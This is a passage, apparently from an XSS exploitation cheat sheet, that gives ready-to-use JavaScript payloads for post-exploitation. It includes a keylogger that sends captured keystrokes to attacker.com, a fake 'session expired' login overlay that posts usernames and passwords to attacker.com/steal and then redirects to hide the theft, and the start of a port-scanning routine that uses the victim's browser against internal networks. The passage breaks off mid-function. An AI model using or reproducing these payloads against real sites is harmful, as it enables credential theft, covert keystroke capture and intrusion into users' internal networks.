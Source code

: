 ### 2. Keylogging

Capture keystrokes entered after the XSS payload executes:

```javascript
var keys = '';
document.onkeypress = function(e) {
  keys += e.key;
  // Send every 50 characters
  if(keys.length >= 50) {
    var img = new Image();
    img.src = "https://attacker.com/k?c=" + encodeURIComponent(keys);
    keys = '';
  }
};
```

### 3. Phishing

Use XSS to display fake login forms and steal credentials:

```javascript
document.body.innerHTML = `
  <div style="position:fixed;top:0;left:0;width:100%;height:100%;background:#fff;z-index:10000">
    <h2>Session expired, please login again</h2>
    <form id="fakelogin">
      Username: <input type="text" name="username"><br>
      Password: <input type="password" name="password"><br>
      <button type="submit">Login</button>
    </form>
  </div>
`;

document.getElementById('fakelogin').onsubmit = function(e) {
  e.preventDefault();
  var u = this.username.value;
  var p = this.password.value;
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({username: u, password: p})
  });
  
  // Redirect to hide the attack
  window.location = "https://legitimate-site.com/login";
};
```

### 4. Network Scanning

Use the victim's browser to scan internal networks:

```javascript
// Check if internal service exists
function checkPort(ip, port) {
  var start = new Date().getTime();
  var img = new Image();
  img.onerror = function() {
    var elapsed = new Date().getTime() - start;
    if (elapsed < 2) {
      // Port is closed or filtered
    } else {
      // Port might be open
      sendResult(ip, port, 'open');
    }
  };
  img.src = 'http://' + ip + ':' + port;
```